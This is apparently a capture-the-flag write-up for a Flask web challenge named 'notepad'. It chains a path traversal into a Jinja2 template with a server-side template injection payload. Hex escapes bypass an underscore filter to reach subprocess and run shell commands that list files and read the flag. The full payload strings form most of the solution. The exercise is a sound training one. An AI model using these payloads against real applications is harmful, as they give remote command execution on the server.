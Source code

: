 # notepad

## Description
This write up will show how to solve the CTF for "notepad"

## Solution
The source code of the web application is given as well as `notepad.tar`.</br>
Decompress `notepad.tar` with `tar -xf notepad.tar`</br>
Investigating the code, basically only `app.py` is interesting.</br>
It is not allowed to use `_` or `/` and strings can't be longer than 512 characters.</br>

Every post is saved as a file in the `static` folder with the first 128 characters of the post, plus a base64 encoded string.</br>

To include the output of our input, is included in `templates/errors`, however the flag will be in the end in the main app folder.</br>
Hence, the payload we use is: `..\template\errors\123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678`, which is 128 charaters long.</br>
The file will be saved in the `static` folder as `123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678` with a random string and `.html`.</br>
With `/?error=` we can read the output, the only thing that changes is the random string at the end:</br>
`/?error=123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678-<<random string>>`, not there is no `.html` at the end!!</br>

To create an initial payload to see if it wil be reflected we can use `{{7*7}}`, i.e. `..\template\errors\123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678{{7*7}}`</br>
It will return after the payload the number 49, meaning whatever we put as a payload, will be executed.</br>

As it is not possible to include `_` and `/`, we can try to use hex: `{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}`</br>
The result is, that it will reflect the subclass, so that works.</br>
Now we can expand the payload to navigate around, starting by figuring out what we see in the current directory:</br>
`..\templates\errors\123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(273)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}`</br>
There is a flag with a file. Now we can replace `ls` with `cat flag*`:</br>
`..\templates\errors\123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(273)('cat flag*',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}`</br>
This will reveal the flag.

